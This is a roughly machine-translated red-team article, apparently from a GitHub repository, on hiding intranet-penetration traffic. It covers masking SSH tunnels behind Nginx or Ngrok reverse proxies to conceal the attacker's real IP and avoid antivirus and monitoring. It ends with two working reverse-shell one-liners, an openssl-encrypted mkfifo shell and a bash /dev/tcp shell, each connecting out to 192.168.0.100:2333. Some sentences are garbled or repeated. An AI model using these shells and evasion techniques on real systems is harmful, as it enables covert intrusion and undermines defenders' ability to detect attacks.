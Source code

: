 # SSH Tunneling Stealth

In the current intranet penetration, there are a large number of various proxy tools on the market, such as: frp, ew, nps, venom, regeorg, etc., according to different scenarios using different protocols, but also DNS, ICMP, RDP, these unconventional protocols proxy tool. But these proxy tools are basically sensitive to some kill software and state sense, basically in the non-kill-free state is to land on the kill. So it is also more recommended to use some of the tools that come with the system to proxy traffic, such as: SSH tunnel proxy, Windows netsh, iptables and so on. This paragraph will focus on SSH tunneling proxy Tips.

! [1](. /images/3.png)

Here we can focus on the place where the arrow points to, through the SSH tunneling proxy, leaving aside our VPS user passwords are monitored, the real IP is also unobstructed in the network process and related connections, the old defense members can be very intuitively found to be a ** [SSH Tunneling Proxy event] **, but here is not we! But here is not what we need to focus on, after all, we can not take all the defense as a fool, to face up to the opponent's ability.

! [1](. /images/4.png)

Here we take the Nginx reverse proxy, the specific implementation of the way not much to say here, interested students can pay attention to Ngrok or Heroku and other ways to configure, but also their own use of anonymous domain names and servers to build.

Through the above figure we can see the use of reverse proxy address SSH tunnel forwarding can effectively hide the real IP address and IP address, note that the IP address here is the address of the Ngrok server, thus realizing the effect of concealment.

# Bounce shell cloaking

In our daily penetration of Linux hosts, when we encounter RCE vulnerabilities, we usually use the following two commands when we need to bounce back to get the interactive shell.

Example 1.

```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.100:2333 > /tmp/s; rm /tmp/s
``

Example 2.

``bash
bash -c 'exec bash -i &>/dev/tcp/192.168.0.100/2333 <&1'
```

The above two examples can be said to be the two most commonly used bounce shell commands in our daily infiltration, of course, the advantage of example 1 is that his traffic is encrypted, in this case the command executed by the bounce shell can't be monitored by the flow control, and at most, it may be reported as **Covert Tunneling Communication** anomaly, but this kind of event is very important for a unit with a certain size of guards. But this kind of event is really too normal for a guarded unit of a certain size. Thousands of similar false alarms occur every day, and alarms like sunflower and teamview are basically ignored.
